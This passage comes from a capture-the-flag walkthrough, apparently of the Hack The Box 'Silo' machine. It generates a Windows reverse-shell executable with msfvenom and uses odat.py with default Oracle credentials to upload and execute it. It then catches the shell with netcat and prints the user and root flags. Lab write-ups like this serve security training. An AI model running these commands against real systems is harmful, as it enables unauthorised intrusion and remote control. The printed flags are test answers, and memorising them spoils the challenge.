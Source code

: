 ```bash
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=3333 -f exe -o shell.exe
```

upload the shell.exe to windows:

```bash
sudo python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile c:/windows/temp shell.exe `pwd`/shell.exe
```

![[Silo-08.png]]

And execute the shells by using externaltable module:

```bash
nc -vlp 3333
```
```bash
sudo python3 odat.py externaltable -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --exec c:/windows/temp shell.exe
```

![[Silo-10.png]]

Excellent! we get the shell, and check its privileges. And find we are in system level. so type the flags

```bash
whoami
cd C:\Users\Phineas\Desktop
type user.txt
# flag
6e64d47c0d0ec86ac0fabb07f23a0186
```
![[Silo-11.png]]

```bash
cd C:\Users\Administrator\Desktop
type root.txt
# flag
d9315c76c52e04a682f2c0fb5f163102
```

![[Silo-12.png]]
